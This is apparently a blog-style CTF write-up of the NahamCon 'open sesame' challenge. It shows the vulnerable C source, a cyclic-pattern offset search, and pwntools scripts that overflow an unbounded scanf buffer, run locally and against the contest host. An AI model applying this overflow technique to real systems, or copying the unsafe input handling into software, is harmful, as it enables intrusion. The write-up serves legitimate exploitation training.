

This was a CTF for nahamcon that took place recently, I solved some of the challenges, some during the CTF and others after the CTF.

In this I will discuss how I solved the open sesame challenge.

#### challenge question.


So we are given 2 files, the source code and the binary itself. Checking the source code:

<pre>#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#define SECRET_PASS "OpenSesame!!!"

typedef enum {no, yes} Bool;

void flushBuffers() {
    fflush(NULL);
}

void flag()
{  
    system("/bin/cat flag.txt");
    flushBuffers();
}

Bool isPasswordCorrect(char *input)
{
    return (strncmp(input, SECRET_PASS, strlen(SECRET_PASS)) == 0) ? yes : no;
}

void caveOfGold()
{
    Bool caveCanOpen = no;
    char inputPass[256];
    
    puts("BEHOLD THE CAVE OF GOLD\n");

    puts("What is the magic enchantment that opens the mouth of the cave?");
    flushBuffers();
    
    scanf("%s", inputPass);

    if (caveCanOpen == no)
    {
        puts("Sorry, the cave will not open right now!");
        flushBuffers();
        return;
    }

    if (isPasswordCorrect(inputPass) == yes)
    {
        puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
        flag();
    }
    else
    {
        puts("ERROR, INCORRECT PASSWORD!");
        flushBuffers();
    }
}

int main()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    caveOfGold();

    return 0;
}
</pre>
SO the most basic explanation, is the program defines a password kind of string, then there is a flag function which callsthe system function and then the cave of gold function which requires some kind of input pass and is defined to 256 bytes. There is also a function that checks if the password is correct and if it is then it will print out a message and then execute the flag function, that is what we want right?

Lets run the program and see what it does. 

Since that did not work, let us try to overflow the buffer, we know that it takes 256 bytes of data, so what will happen if we input more than that?
We use cyclic 300 
We get a seg fault, let us find the offset now since we know the program is vulnerable to buffer overflow.

<pre> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac </pre>

set the breakpoint at the puts function after the scanf function 

copy the value in rsp and let us find our offset. 
 ```python
 cyclic -l "uaacvaacwaacxaacyaac"
```
We get the offset 
Now from there, we already know that we have to input the secret_pass which is ```OpenSesame!!!```

With that let us develop the exploit!
```python
from pwn import *

binary = context.binary = ELF("./open_sesame", checksec=False)


p = process()

secret = b"OpenSesame!!!"

# The number of characters needed
padding = b"A"*280

payload = secret+padding

# receive the input ftom the program until cave?
p.recvuntil(b"cave?")
p.sendline(payload)
p.interactive()

```
That should gives us the flag , fingers crossed! Create a fake flag.txt in the same directory as the binary and you can give it any characters you want.
 Nice we get our fake flag, now run it with remote details.

 ```
from pwn import *

binary = context.binary = ELF("./open_sesame", checksec=False)


# p = process()
p = remote("challenge.nahamcon.com",31595)
secret = b"OpenSesame!!!"

# The number of characters needed
padding = b"A"*280

payload = secret+padding

# receive the input ftom the program until cave?
p.recvuntil(b"cave?")
p.sendline(payload)
p.interactive()
 ```